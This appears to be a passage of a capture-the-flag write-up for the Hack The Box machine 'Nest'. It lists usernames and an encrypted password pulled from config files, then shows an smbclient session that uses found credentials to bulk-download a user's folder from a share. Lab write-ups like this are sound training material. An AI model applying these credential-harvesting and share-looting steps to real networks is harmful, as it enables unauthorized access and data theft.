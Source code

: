 ### Findings

IT Directory
Atlas/temp.xml
Possible new users: 
Deanna Meyes
Jolie Lenehan
Robert O'hara

Configs/notepadplusplus/config.xml
<File filename="C:\windows\System32\drivers\etc\hosts"/><File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt"/><File filename="C:\Users\C.Smith\Desktop\todo.txt"/>
User: Carl

RU Scanner
RU_Config.xml
<ConfigFile><Port>389</Port><Username>c.smith</Username><Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password></ConfigFile>
We have c.smith's password in base64

running cyberchef we find this: }13.ö.£=XÎJ¡BAú..X*.Wc.fí¸Î?Î²c.

so its encrypted :(

we know that there is a folder in secure$\Carl and a temp file lets try to get that. 

### SMB Client

```console
noob2uub@kali:~/ctf/htb/nest/IT$ smbclient -U TempUser //10.10.10.178/Secure$ welcome2019
Try "help" to get a list of possible commands.
smb: \> cd IT\Carl
smb: \IT\Carl\> recurse on
smb: \IT\Carl\> prompt off
smb: \IT\Carl\> mget *
getting file \IT\Carl\Docs\ip.txt of size 56 as Docs/ip.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \IT\Carl\Docs\mmc.txt of size 73 as Docs/mmc.txt (0.3 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner.sln of size 871 as VB Projects/WIP/RU/RUScanner.sln (3.2 KiloBytes/sec) (average 1.2 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\ConfigFile.vb of size 772 as VB Projects/WIP/RU/RUScanner/ConfigFile.vb (2.8 KiloBytes/sec) (average 1.6 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\Module1.vb of size 279 as VB Projects/WIP/RU/RUScanner/Module1.vb (1.0 KiloBytes/sec) (average 1.5 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\RU Scanner.vbproj of size 4828 as VB Projects/WIP/RU/RUScanner/RU Scanner.vbproj (17.5 KiloBytes/sec) (average 4.2 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\RU Scanner.vbproj.user of size 143 as VB Projects/WIP/RU/RUScanner/RU Scanner.vbproj.user (0.5 KiloBytes/sec) (average 3.6 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\SsoIntegration.vb of size 133 as VB Projects/WIP/RU/RUScanner/SsoIntegration.vb (0.5 KiloBytes/sec) (average 3.2 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\Utils.vb of size 4888 as VB Projects/WIP/RU/RUScanner/Utils.vb (17.8 KiloBytes/sec) (average 4.9 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Application.Designer.vb of size 441 as VB Projects/WIP/RU/RUScanner/My Project/Application.Designer.vb (1.5 KiloBytes/sec) (average 4.5 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Application.myapp of size 481 as VB Projects/WIP/RU/RUScanner/My Project/Application.myapp (1.7 KiloBytes/sec) (average 4.3 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\AssemblyInfo.vb of size 1163 as VB Projects/WIP/RU/RUScanner/My Project/AssemblyInfo.vb (4.2 KiloBytes/sec) (average 4.3 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Resources.Designer.vb of size 2776 as VB Projects/WIP/RU/RUScanner/My Project/Resources.Designer.vb (10.1 KiloBytes/sec) (average 4.7 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Resources.resx of size 5612 as VB Projects/WIP/RU/RUScanner/My Project/Resources.resx (20.4 KiloBytes/sec) (average 5.8 KiloBytes/sec)
```
